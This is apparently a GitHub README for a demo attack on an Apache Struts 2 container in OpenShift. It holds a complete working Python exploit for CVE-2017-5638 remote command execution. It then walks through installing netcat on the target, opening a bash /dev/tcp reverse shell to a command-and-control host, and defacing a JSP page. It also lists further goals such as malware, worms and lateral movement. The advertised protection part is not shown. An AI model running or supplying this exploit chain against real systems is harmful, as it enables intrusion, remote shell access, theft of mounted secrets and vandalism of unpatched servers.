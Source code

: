 # Demo of Kubernetes Container Hack in OpenShift, and protection via Red Hat ACS

## Exloiting a Vulnerability

Exploiting the Apache Struts 2 Java web framework CVE.

### Setup Vulnerable Target Container

Deploy Pod with vulnerable version:
```bash
oc create -f vulnerable-pod.yaml
```

Access web application at http://<openshiftappsip>:30004.

### Attack Target Container

We are now going to use the Apache Struts 2 CVE to exploit the container using **Strutsshock**.

An invalid Content-Type header is passed into a request which throws an error. The error is not escaped properly which allows us to inject additional commands which will be performed on the target machine.

Create Python script for strutshock attack:

```bash
vi attack.py
```

Copy following script:

```python
import http.client
import urllib.error
import urllib.parse
import urllib.request


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"
    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib.request.Request(url, headers=headers)
        page = urllib.request.urlopen(request).read()
    except http.client.IncompleteRead as e:
        page = e.partial
    print(page)
    return page


if __name__ == '__main__':
    import sys

    if len(sys.argv) != 3:
        print("[*] str.py <url> <cmd>")
    else:
        print('[*]CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print(("[*] cmd: %s\n" % cmd))
        exploit(url, cmd)
```

Execute command on target - Remote Command Execution (RCE):

```bash
python3 attack.py http://<openshiftappsip>:30004/ "whoami"
```

### Gain Reverse Shell Access

At this stage we can execute commands on the target machine. We want to go a step further by gaining a reverse shell into the container.

### Prepare to receive reverse shell

Firt we need to listen on the command and control server for a connection using netcat. 

```bash
nc -lnvp 4444
```

#### Get Reverse Shell on Target

From running a few commands we can see that the target vulnerable application is running as the root user on the target. This means we can do anything that we won't on the target and potentially on the host it is running on as well. We can also install any additional libraries that we need to setup command and control.

By running the following command we can see that it is running an old version of Debian Jessie:

```bash
python3 attack.py http://<openshiftappsip>:30004/ "apt-get update"
```

We can update the package manager sources so we can install additional libraries to exploit the target. We will install net can which will create a connection out to our command and control server.

```bash
python3 attack.py http://<openshiftappsip>:30004/ "sed -i \'s/deb.debian.org/archive.debian.org/g\' /etc/apt/sources.list"
python3 attack.py http://<openshiftappsip>:30004/ "apt-get update"
python3 attack.py http://<openshiftappsip>:30004/ "apt-get install -y --force-yes netcat"
```

Now that netcat is installed we can establish an outbound connection from our target to our command and control server. Since we are using port 443 it is likely that this traffic would be allowed outbound by the target's network:

```bash
python3 attack.py http://<openshiftappsip>:30004/ "bash -i >& /dev/tcp/<localip>/4444 0>&1"
```

We now have a reverse shell into the target.

Use the following in the command and control shell to allow clearing the console:
```bash
export TERM=xterm
```

We can see that this is a Docker host and running on Kubernetes:
```bash
ls -la
env
```

If we had mounted any secrets via Environment Variables we could now have access to them.

#### Make Changes to Target

Now that we have access we can make any change that we want to the system. This may include:

- Adding malware
- Creating a command and control server inside the target's network perimeter
- Deploying a worm
- Adding malware to their website being hosted
- Vandalizing the website
- Moving laterally within the target's network

The following can be used to make a change to the showcase screen which we have already found in our reconnaissance.

```bash
cd /usr/local/tomcat/webapps/ROOT
cat showcase.jsp
sed -i 's/Welcome!/You have been Hacked!/g' showcase.jsp
cat showcase.jsp
```

